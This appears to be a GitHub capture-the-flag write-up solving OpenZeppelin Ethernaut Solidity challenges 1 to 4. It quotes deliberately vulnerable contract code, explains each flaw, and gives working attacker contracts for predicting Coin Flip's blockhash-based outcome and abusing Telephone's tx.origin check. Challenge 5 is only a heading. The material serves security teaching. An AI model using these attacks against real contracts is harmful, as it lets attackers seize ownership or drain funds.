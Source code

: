 # Ethernaut CTF

# 1. [Challenge 1 : Fallback](https://ethernaut.openzeppelin.com/level/0x9CB391dbcD447E645D6Cb55dE6ca23164130D008)

Tasks: \
    1. you claim ownership of the contract \
    2. you reduce its balance to 0

**Solution:** \
Vulnerable Code: 
```
receive() external payable {
    require(msg.value > 0 && contributions[msg.sender] > 0);
    owner = msg.sender;
  }
```
It's fallback function and here 2 requirements required to make ourself owner

- First we need to contribute some ether to satisfy ```contributions[msg.sender] > 0``` requirements 
- To satisfy 2nd requirements we need send some ether in this fallback function. As fallback function execute when the requested function isn't available. So we can execute ```contract.sendTransaction({"value": 1})``` this to satisfy 2nd requirements and make ourself owner

- To reduce contract balance to 0 we can simply call ```withdraw``` function and able to solve the 1st challenge.


# 2. [Challenge 2: Fallout](https://ethernaut.openzeppelin.com/level/0x9CB391dbcD447E645D6Cb55dE6ca23164130D008)

Tasks: 
- Claim ownership of the contract below to complete this level.

**Solution:** \
Vulnerable Code: 
```
  /* constructor */
  function Fal1out() public payable {
    owner = msg.sender;
    allocations[owner] = msg.value;
  }
```

This constructor function name has a typo. So, to achieve ownership we just need to call ```Fal1out``` function and able to the 2nd challenge


# 3. [Challenge 3: Coin Flip](https://ethernaut.openzeppelin.com/level/0x9CB391dbcD447E645D6Cb55dE6ca23164130D008)

Tasks: 
- This is a coin flipping game where you need to build up your winning streak by guessing the outcome of a coin flip. To complete this level you'll need to use your psychic abilities to guess the correct outcome 10 times in a row.

**Solution:** \
Vulnerable Code: 
```
function flip(bool _guess) public returns (bool) {
    uint256 blockValue = uint256(blockhash(block.number.sub(1)));

    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = blockValue.div(FACTOR);
    bool side = coinFlip == 1 ? true : false;

    if (side == _guess) {
      consecutiveWins++;
      return true;
    } else {
      consecutiveWins = 0;
      return false;
    }
```

Attack Payload:
```
contract Attack {

  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  function attack(CoinFlip coinFlip) public {

    uint256 guess1 = uint256(blockhash(block.number - 1));
    uint256 guess = uint256(guess1/FACTOR);
    bool _guess = guess == 1 ? true : false;
    coinFlip.flip(_guess);

    }
}
```
We can win this unlimite time by just mimicing the checker functions of `flip` function

# 4. [Challenge 4: Telephone](https://ethernaut.openzeppelin.com/level/0x0b6F6CE4BCfB70525A31454292017F640C10c768)

Tasks: 
- Claim ownership of the contract below to complete this level.

**Solution:** \
Vulnerable Code:
```
  function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
```

Attack Payload:
```
contract Attack {
    function attack(Telephone telephone) public {
        telephone.changeOwner(tx.origin);
    }
}
```
This `changeOwner` function is basically checking if `tx.origin` not equally `msg.sender` it will set user inputed address as owner. So we can do is create a smart contract that will call the `changeOwner` function we can satisfy the check and make ourself as owner.


# 5. [Challenge 5: Token](https://ethernaut.openzeppelin.com/level/0x63bE8347A617476CA461649897238A31835a32CE)


